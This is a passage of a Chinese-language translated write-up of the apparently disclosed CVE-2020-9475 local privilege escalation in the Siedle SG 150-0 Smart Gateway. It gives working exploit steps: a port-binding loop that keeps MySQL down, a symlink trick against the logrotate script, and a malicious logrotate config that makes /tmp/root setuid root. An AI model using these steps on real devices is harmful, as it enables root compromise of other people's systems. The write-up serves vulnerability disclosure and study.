 译者注：`!`表示运行系统函数， 另一种更常见的写法是[ `system`](https://dev.mysql.com/doc/refman/8.0/en/mysql-commands.html)。

然后，我们重打包 squashfs 并把它上传给 web 应用的恢复程序。在等待几分钟之后，恢复程序执行完毕，我们就能通过 ssh 密钥以 mysql 用户的身份访问设备。当我们修改的文件中的命令执行之后，mysql 用户的 `~/.ssh/authorized_key`就生成了。

### <a class="reference-link" name="CVE-2020-9475:%20S.%20Siedle%20&amp;%20Soehne%20SG%20150-0%20Smart%20Gateway%201.2.4%E7%89%88%E6%9C%AC%E4%B9%8B%E5%89%8D%20%E6%9C%AC%E5%9C%B0%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87"></a>CVE-2020-9475: S. Siedle &amp; Soehne SG 150-0 Smart Gateway 1.2.4版本之前 本地权限提升

为了提升我们的权限，用到了 logrotate 脚本中的一个错误配置。此外，我们写了三个小程序，分别命名为 bind、symlink 和 root。这些程序的源码会附在文章的末尾。我们已经有了 shell 的访问权限，我们交叉编译这三个ARM平台的应用程序，并将他们拷贝到设备上。

我们想要触发 MySQL logrotate 脚本的如下部分。

```
MYADMIN="/usr/bin/mysqladmin --user=root --password=$MYSQL_ROOT_PW" $MYADMIN ping &amp;&gt; /dev/null if [ $? -eq 0 ]; then
    $MYADMIN flush-logs
else
    # manually move it, to mimic above behaviour
    mv -f /var/log/mysql/mysql.log /var/log/mysql/mysql.log-old
    # recreate mysql.log, else logrotate would miss it
    touch /var/log/mysql/mysql.log
    chown mysql.mysql /var/log/mysql/mysql.log
    chmod 0664 /var/log/mysql/mysql.log
fi
```

为了触发这部分的代码，我们需要促使 `mysqladmin ping` 返回非零值，这种情况只有当 mysql 服务停止时才会发生 。更改凭证或者甚至删整个数据都无助于事，mysqladmin 的返回值仍旧是 0。我们需要把数据库处于不可用的状态。如果你使用 systemd 关闭服务，系统会自动重启服务。我们需要处理这个问题，于是我们的第一个脚本（bind）就出现了。我们使用它绑定 mysql 数据库所使用的 63601 端口。

```
while true; do ./bind 63601; sleep 1; done
```

在第二个终端中，我们关闭数据库。由于数据库使用的端口已经被占用，在数据库服务重启时绑定端口失败从而进入了挂起状态。因为 mysql 会在关闭与开启之间释放端口，所以我们可以在数据库服务关闭和启动之间运行，用我们的程序阻塞端口。使用这种方法 `mysqladmin`返回 1，于是我们可以跳转到 else 代码分支下。

然后，需要用到我们的第二个程序：symlink。这个程序的目标是在`/etc/logrotate.d/`目录下创建一个我们可控可写的文件。logrotate 会以 root 权限执行这个目录下的所有脚本。为了实现上述目标，我们使用 logrotate 脚本清理 MySQL 日志文件，并设法创建一个从符号链接，这个链接由 `/var/log/mysql/mysql.log` 指向一个名为 `/etc/logrotate.d/rootme`的文件。此时还没有 rootme 文件，但这并不是问题。伴随着符号链接，logrotate 以 root 权限创建了 `/etc/logrotate.d/rootme`文件，并通过 `chown`把所属权给了 mysql 用户。为了避免 mysql 写入我们之前准备的文件，我们需要删除这个符号链接并为它创建一个新的`/var/log/mysql/mysql.log`文件。然后，我用以下内容填充`/etc/logrotate.de/rootme`文件：

```
/var/log/mysql/rootme.log `{`
        delaycompress
        nosharedscripts
        copy
        firstaction
            chown root:root /tmp/root
            chmod +s /tmp/root
            mv -f /var/log/mysql/rootme.log /var/log/mysql/rootme.log-old
            touch /var/log/mysql/rootme.log
            chown mysql.mysql /var/log/mysql/rootme.log
            chmod 0664 /var/log/mysql/rootme.log
         fi
        endscript
        lastaction
            mv -f /var/log/mysql/rootme.log-old /var/log/mysql/rootme.log.1
        endscript
`}`
```
